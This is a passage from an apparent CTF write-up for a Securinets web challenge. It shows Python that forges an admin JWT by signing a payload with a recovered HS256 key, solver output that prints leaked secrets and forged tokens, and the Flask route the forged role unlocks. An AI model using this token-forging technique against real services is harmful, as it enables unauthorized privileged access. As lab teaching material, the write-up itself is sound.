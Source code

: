 ```python
    "type": "access",
    "sub": "sbeve",  # Target the real admin user
    "nbf": int(time.time()),
    "exp": int(time.time()) + 3600,
    "role": 2,
    "avatar": None,
    "totp": 0000  # Placeholder; will be updated in loop
}


# Sign the payload with the correct JWT key
print(f"Using JWT key: {jwt_key}")
print("Forging admin JWT...")
forged_token = jwt.encode(admin_payload, jwt_key, algorithm="HS256")
print(f"Forged JWT: {forged_token}")

```

```powershell
PS C:\Users\saleh\Downloads\CTFKareemSecurinetsTekup> python .\jw\challenge\solver.py
Logging in with new user...
Login successful!
JWT Cookie: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjA0NjAyNiwianRpIjoiMmY5MWE5OTktNWZmZC00NTM1LThmMTgtODRiOGFiOGI1MjNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InNiZXZlIiwibmJmIjoxNzQyMDQ2MDI2LCJleHAiOjE3NDIwNDY5MjYsInJvbGUiOjAsImF2YXRhciI6bnVsbCwidG90cCI6bnVsbH0.TtSC7I80Tlp4R0UAWzGdBgPOJ4ZC9gRpavGYn2n-XSM
Fetching server status...
Server responded - up: 1741746923, Uptime: 299104
Trying up: 1741746913

Step 1: Successfully decoded JWT!
up (adjusted): 1741746913, PID: 10
Original server up: 1741746923
Strong Password: ywrq4loihIWcRewq # Admin Password as mentinned
SECRET_KEY: bwAgO]k}d=J<t2*UF89!2
JWT_SECRET_KEY: L6kb♀]tJ\JQ#JH~LRDGbH?CTC(W7A Q,
Decoded JWT: {'fresh': False, 'iat': 1742046026, 'jti': '2f91a999-5ffd-4535-8f18-84b8ab8b523f', 'type': 'access', 'sub': 'sbeve', 'nbf': 1742046026, 'exp': 1742046926, 'role': 0, 'avatar': None, 'totp': None}
Using JWT key: L6kb♀]tJ\JQ#JH~LRDGbH?CTC(W7A Q,
Forging admin JWT...
Forged JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjA0NjAyNywianRpIjoiNDRhZWZlOWItNTlhOS00OWEwLTk4MGItN2JkNTcyYWY0OWFhIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InNiZXZlIiwibmJmIjoxNzQyMDQ2MDI3LCJleHAiOjE3NDIwNDk2MjcsInJvbGUiOjIsImF2YXRhciI6bnVsbCwidG90cCI6MH0.YKZdzAQgWkNN0dBL-Jres2MU1cisK0txWjha1BMjR8k 
```

```python
# /fetchstaff needs role >= 1 , forging the JWT helped us here
@app.route("/fetchstaff")
@jwt_required()
def staff():
	if get_jwt()["role"] < 1:
		return "Unauthorized", 403
	staff = User.query.filter(User.role > 0).all()
	return jsonify([{"username": s.username, "avatar": s.avatar} for s in staff])
```
